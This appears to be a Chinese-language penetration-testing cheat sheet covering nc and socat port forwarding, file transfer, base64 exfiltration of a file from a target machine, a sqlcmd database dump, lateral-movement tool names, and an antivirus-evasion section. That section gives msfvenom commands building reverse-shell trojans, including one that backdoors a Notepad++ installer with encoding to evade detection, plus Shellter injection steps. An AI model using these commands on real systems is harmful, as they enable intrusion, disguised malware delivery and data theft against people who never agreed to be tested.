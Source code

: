 综合技巧
========================================

临时服务器
----------------------------------------
- python方式
	+ ``python2 - m SimpleHTTPServer``
	+ ``python3 -m http.server 8888``
- php方式
	+ ``php -S 127.0.0.2:8181 -t /www /www/app.php``

端口转发
----------------------------------------
- nc
	- 端口扫描
		+ ``nc -z -v -n 172.31.100.7 21-25``
	- 端口转发
		+ ``nc -l 8000`` 
		+ ``cat /tmp/fifo | nc localhost 8000 | nc -l 9000 > /tmp/fifo`` 
		+ ``nc -n 192.168.1.102 9000`` 
- socat
	- 显示本地文件
		+ ``socat - /etc/sysctl.conf`` 
	- 监听本地端口
		+ ``socat TCP-LISTEN:12345 -`` 
	- UNIX DOMAIN域套接字转成TCP SOCKET
		+ ``socat TCP-LISTEN:12345,reuseaddr,fork UNIX-CONNECT:/data/deCOREIDPS/unix.domain`` 
	- 端口转发
		+ ``对于所有15000端口的TCP访问，一律转发到 server.wesnoth.org:15000 上`` 
		+ ``socat -d -d -lf /var/log/socat.log TCP4-LISTEN:15000,reuseaddr,fork,su=nobody TCP4:server.wesnoth.org:15000`` 
		+ ``tcp：nohup socat TCP4-LISTEN:2333,reuseaddr,fork TCP4:233.233.233.233:6666 >> /root/socat.log 2>&1 &`` 
		+ ``udp：nohup socat UDP4-LISTEN:2333,reuseaddr,fork UDP4:233.233.233.233:6666 >> /root/socat.log 2>&1 &`` 
	
文件传输
----------------------------------------
- nc
	- 文件传输
		+ 将B机器上的file.txt传输到A机器上
		+ ``A机器：nc -lvp 1567 > file.txt``
		+ ``B机器：nc 172.31.100.7 1567 < file.txt``
	- 目录传输
		+ ``tar -cvf – dir_name | nc -l 1567``
		+ ``nc -n 172.31.100.7 1567 | tar -xvf -``
	- 加密传输
		+ ``nc localhost 1567 | mcrypt –flush –bare -F -q -d -m ecb > file.txt``
		+ ``mcrypt –flush –bare -F -q -m ecb < file.txt | nc -l 1567``
- python
	- 目标机器转base64
		+ ``目标机器有python：python -c 'print(__import__("base64").b64encode(open("secret.zip", "rb").read()))'``
	- 个人机器还原
		+ ``cat - > zip.txt``
		+ ``输入拿到的base64串：UEsDBBQACQAIAEZ/CE8bl，输入完成按回车``
		+ ``^C即ctrl+c``
		+ ``还原文件：base64 -d zip.txt > secret.zip``

脱裤
----------------------------------------
- sqlcmd
	+ dump数据:``sqlcmd -S 127.0.0.1,1433 -U username123 -P pasword123 -d datebase123 -Q"BACKUP DATABASE database123 to disk='c:\www\myweb\wap\userlz.bak'"``
- sqlmap

远程连接 && 执行程序
----------------------------------------
- at&schtasks
- psexec
- wmic
- wmiexec.vbs
- smbexec
- powershell remoting
- SC创建服务执行
- schtasks
- SMB+MOF || DLL Hijacks
- PTH + compmgmt.msc

netstat
-----------------------------------------

|netstat|

- Local ：访问端口的方式，0.0.0.0 是对外开放端口，说明80端口外面可以访问；127.0.0.1 说明只能对本机访问，外面访问不了此端口；
- Address：端口
- Foregin Address：对外开放，一般都为0.0.0.0：* 
- Program name：此端口是那个程序在用，程序挂载此端口
- 重点说明 0.0.0.0 是对外开放，通过服务域名、ip可以访问的端口
- 127.0.0.1 只能对本机 localhost访问，也是保护此端口安全性
- ::: 这三个: 的前两个”::“，是“0:0:0:0:0:0:0:0”的缩写，相当于IPv6的“0.0.0.0”，就是本机的所有IPv6地址，第三个:是IP和端口的分隔符

免杀
-----------------------------------------
- MSF制作免杀木马
	- 列出所有可用编码
		``msfvemon -l encoders``
	- 裸奔木马
		``msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.11 LPORT=1234 -f exe > /root/test.exe``
	- 免杀木马
		``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.20.2 LPORT=3333 -e x86/shikata_ga_nai -x npp.7.8.6.Installer.exe -i 12 -f exe -o /root/npp1.exe``

	|msfvemon1|

- Shellter动态注入工具
	- 下载地址
		``https://www.shellterproject.com/download/``
	- Choose Operation Mode - Auto/Manual (A/M/H)
		选择模式: 自动模式自动注入后门，M高级模式，H帮助
	- PE Target：
		注入的程序.
	- Enable Stealth Mode?
		是否启用隐身模式
	- Use a listed payload or custom? (L/C/H)
		使用攻击模块列表或者自定义
	- Select payload by index:
		选择payload序号
	- SET LHOST
		设置反弹回来的IP 本机
	- SET LPORT
		设置接收反弹的端口
		
提权
-----------------------------------------
- PEASS-ng
	 + 新一代特权升级脚本套件，适用于 Windows 和 Linux/Unix* 以及 MacOS 的权限提升工具
	 + 项目地址: ``https://github.com/carlospolop/PEASS-ng``


.. |netstat| image:: ../images/netstat.png
.. |msfvemon1| image:: ../images/msfvenom1.png
